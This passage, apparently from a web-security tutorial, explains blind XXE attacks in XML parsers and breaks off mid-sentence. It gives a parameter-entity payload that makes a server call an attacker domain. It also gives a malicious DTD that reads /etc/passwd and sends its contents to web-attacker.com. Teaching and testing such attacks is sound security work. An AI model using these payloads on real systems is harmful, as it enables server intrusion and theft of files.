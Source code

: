 This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting Blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:
